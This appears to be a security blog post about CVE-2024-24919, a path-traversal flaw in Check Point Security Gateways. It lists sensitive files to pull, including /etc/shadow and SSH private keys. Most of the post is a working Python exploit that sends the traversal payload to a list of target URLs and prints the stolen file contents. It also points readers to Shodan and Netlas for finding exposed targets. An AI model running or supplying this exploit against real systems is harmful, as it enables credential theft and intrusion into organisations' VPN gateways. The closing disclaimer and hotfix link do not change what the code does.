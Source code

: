 ```yaml
---
title: CVE-2024-24919
description: Allows an attacker to read certain information on Check Point Security Gateways once connected to the internet and enabled with remote Access VPN or Mobile Access Software Blades.
author: BW
date: 2024-06-12 20:00:00 - 0500
categories: [CyberSecurity, Offensive Security]
tags: [offsec]     # TAG names should always be lowercase
image:
  path: /assets/img/posts/2024-06-13-CVE-2024-24919/CVE-2024-24919.png
  lqip: /assets/img/posts/2024-06-13-CVE-2024-24919/CVE-2024-24919.png
---
```

Proof of Concept python script that exploits what's essentially a path traversal issue.

Below are a list of files that are vulnerable - including the shadow file which contains the hashed passwords.
1. ../../../../../../../etc/fstab
2. ../../../../../../../etc/shadow
3. ../../../../../../../sysimg/CPwrapper/SU/Products.conf
4. ../../../../../../../config/db/initial
5. ../../../../../../../etc/passwd
6. ../../../../../../../home/*/.ssh/authorized_keys
7. ../../../../../../../opt/checkpoint/conf/
8. ../../../../../../../etc/ssh/sshd_config
9. ../../../../../../../etc/vpn/vpn.conf
10. ../../../../../../../home/*/.ssh/id_rsa

### The PoC Script
```python
import argparse
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning

# Suppress SSL warnings
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

vuln = ['root:', 'nobody:']

def make_request(url, payload=None, headers=None):
    try:
        response = requests.post(url, data=payload, headers=headers, verify=False)
        if response.ok:
            for word in vuln:
                if word in response.text:
                    print(f"[+] {url} is vulnerable")
                    if payload and payload.startswith("aCSHELL/../../../../../../../etc/shadow"):
                        print("╔══════════════════════════════════════════════════════╗")
                        print("║                      etc/shadow found:               ║")
                        print("╚══════════════════════════════════════════════════════╝")
                        print("╔══════════════════════════════════════════════════════╗")
                        print(f"                      {response.text}                ")
                        print("╚══════════════════════════════════════════════════════╝")
                    elif payload:
                        print("╔══════════════════════════════════════════════════════╗")
                        print("║                      Your file was found:            ║")
                        print("╚══════════════════════════════════════════════════════╝")
                        print("╔══════════════════════════════════════════════════════╗")
                        print(f"                      {response.text}                ")
                        print("╚══════════════════════════════════════════════════════╝")
                    return
            print(f"[-] {url} is not vulnerable")
        else:
            print(f"[-] {url} responded with status code: {response.status_code}")
    except requests.RequestException as e:
        print(f"Error making request to {url}: {e}")

def main():
    payload = "aCSHELL/../../../../../../../etc/shadow"
    parser = argparse.ArgumentParser(description="CVE-2024-24919 POC")
    parser.add_argument("-l", metavar='filename', type=str, help="File containing list of HTTP/HTTPS targets")
    parser.add_argument("-f", metavar='file', type=str, help="File to read for custom payload (May break on multiple targets with unknown files.)")
    args = parser.parse_args()

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "none",
        "Sec-Fetch-User": "?1",
        "Dnt": "1",
        "Sec-Gpc": "1",
        "Te": "trailers",
        "Connection": "close"
    }

    payload_base = "aCSHELL/../../../../../../../{}"

    if args.f:
        payload = payload_base.format(args.f)

    if args.l:
        try:
            with open(args.l, 'r') as file:
                urls = file.readlines()
                for url in urls:
                    url = url.strip()
                    if url.startswith('http://') or url.startswith('https://'):
                        make_request(url + '/clients/MyCRL', payload=payload, headers=headers)
                    else:
                        print(f"Skipping invalid URL: {url}")
        except FileNotFoundError:
            print(f"Error: File '{args.l}' not found.")
    else:
        print("Please provide a file containing list of HTTP/HTTPS targets using -l option.")

if __name__ == "__main__":
    main()
```
{: file='exploit.py'}

### Finding targets

![Desktop View](/assets/img/posts/2024-06-13-CVE-2024-24919/netlas.png){: width="972" height="589" .w-75 .normal}

![Desktop View](/assets/img/posts/2024-06-13-CVE-2024-24919/shodan.png){: width="972" height="589" .w-75 .normal}

### Example of output

![Desktop View](/assets/img/posts/2024-06-13-CVE-2024-24919/output.png){: width="972" height="589" .w-75 .normal}

> This is for educational purposes. Only try this on systems you own. Please don't do anything illegal.
{: .prompt-danger }

Check Point already released a hotfix for this, you can read more about it here: <https://support.checkpoint.com/results/sk/sk182336>
